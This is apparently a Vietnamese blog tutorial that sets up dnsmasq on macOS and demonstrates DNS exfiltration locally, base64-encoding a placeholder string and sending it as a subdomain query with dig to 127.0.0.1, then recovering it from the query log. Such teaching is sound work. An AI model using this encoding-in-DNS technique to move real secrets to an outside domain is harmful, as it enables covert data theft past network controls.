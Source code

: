 ```yaml
---
title: "DNS exfiltration"
seoTitle: "Preventing DNS Data Exfiltration"
seoDescription: "Explore DNS exfiltration techniques using a DNS server on macOS, including setup with dnsmasq, data encoding, and log analysis"
datePublished: Thu Dec 05 2024 01:47:28 GMT+0000 (Coordinated Universal Time)
cuid: cm4anq28g000209mha2sy11vu
slug: dns-exfiltration
tags: dns, devops

---
```


Trong bài viết này, chúng ta sẽ đào sâu vào cách **dựng một máy chủ DNS trên unix** và cách thực hiện một tình huống để minh họa cho **DNS Exfiltration** trên máy cá nhân. DNS Exfiltration là một kỹ thuật mà kẻ tấn công sử dụng để đánh cắp dữ liệu qua các truy vấn DNS, và chúng ta sẽ thực hiện tất cả trên máy macOS của mình.

## Bước 1: Cài đặt và cấu hình `dnsmasq`

Để dựng một máy chủ DNS trên macOS, chúng ta sẽ sử dụng **dnsmasq** - một công cụ nhẹ nhàng và phổ biến cho mục đích này.

### 1.1 Cài đặt `dnsmasq`

Trước tiên, hãy cài đặt **Homebrew** (nếu bạn chưa có):

```bash
/bin/bash -c "$(curl -fsSL https://raw.githubusercontent.com/Homebrew/install/HEAD/install.sh)"
```

Sau đó, cài đặt **dnsmasq**:

```bash
brew install dnsmasq
```

### 1.2 Cấu hình `dnsmasq`

Sau khi cài đặt xong, chúng ta cần cấu hình `dnsmasq`. Tạo file cấu hình trong thư mục `/opt/homebrew/etc/` (hoặc ví trí mà `dnsmasq` cài đặt).

Mở file cấu hình:

```bash
vim /opt/homebrew/etc/dnsmasq.conf
```

Thêm các dòng cấu hình sau vào file:

```bash
address=/mytestdomain.com/127.0.0.1
log-queries
log-facility=/opt/homebrew/var/log/dnsmasq.log
```

* `address=/`[`mytestdomain.com/127.0.0.1`](http://mytestdomain.com/127.0.0.1): Trả về địa chỉ IP `127.0.0.1` cho tên miền [`mytestdomain.com`](http://mytestdomain.com).
    
* `log-queries`: Ghi lại các truy vấn DNS.
    
* `log-facility=/opt/homebrew/var/log/dnsmasq.log`: Định vị nơi ghi log.
    

### 1.3 Tạo file log và start `dnsmasq`

Tạo file log để lưu các truy vấn DNS:

```bash
sudo mkdir -p /opt/homebrew/var/log
sudo touch /opt/homebrew/var/log/dnsmasq.log
sudo chmod 666 /opt/homebrew/var/log/dnsmasq.log
```

Sau đó, khởi động `dnsmasq`:

```bash
sudo brew services start dnsmasq
```

## Bước 2: Cấu hình DNS trên macOS

Bạn cần cấu hình macOS để sử dụng `dnsmasq` làm DNS server:

1. Mở **System Preferences &gt; Network**.
    
2. Chọn kết nối Wi-Fi hoặc Ethernet.
    
3. Chọn **Advanced** và chuyển tới tab **DNS**.
    
4. Thêm địa chỉ IP **127.0.0.1**.
    

## Bước 3: Test DNS Exfiltration

Bây giờ bạn đã có máy chủ DNS của riêng mình và sắn sàng ghi lại các truy vấn. Hãy thực hiện một cuộc **DNS exfiltration** đơn giản.

### 3.1 Mã hóa dữ liệu thành Base64

Giả sử bạn muốn chuyển dữ liệu nhạy cảm "SensitiveInfo":

```bash
echo -n "SensitiveInfo" | base64
```

Kết quả sẽ là:

```bash
U2Vuc2l0aXZlSW5mbw==
```

### 3.2 Gửi truy vấn DNS chứa dữ liệu mã hóa

Sử dụng lệnh `dig` để gửi dữ liệu qua DNS:

```bash
dig U2Vuc2l0aXZlSW5mbw.mytestdomain.com @127.0.0.1
```

* `U2Vuc2l0aXZlSW5mbw` là dữ liệu đã được mã hóa Base64.
    
* `@127.0.0.1` là địa chỉ của máy chủ DNS bạn đã dựng.
    

### 3.3 Kiểm tra log của `dnsmasq`

Bạn có thể kiểm tra log để xem các truy vấn DNS có chứa dữ liệu mã hóa không:

```bash
cat /opt/homebrew/var/log/dnsmasq.log
```

Trong log, bạn sẽ thấy các truy vấn chứa chuỗi Base64 (`U2Vuc2l0aXZlSW5mbw`), chứng tỏ rằng dữ liệu đã được gửi qua DNS.

### 3.4 Decode Base64

Sau khi kiểm tra log, bạn có thể giải mã chuỗi Base64 để xem dữ liệu ban đầu:

```bash
echo "U2Vuc2l0aXZlSW5mbw==" | base64 --decode
```

Kết quả sẽ là:

```bash
SensitiveInfo
```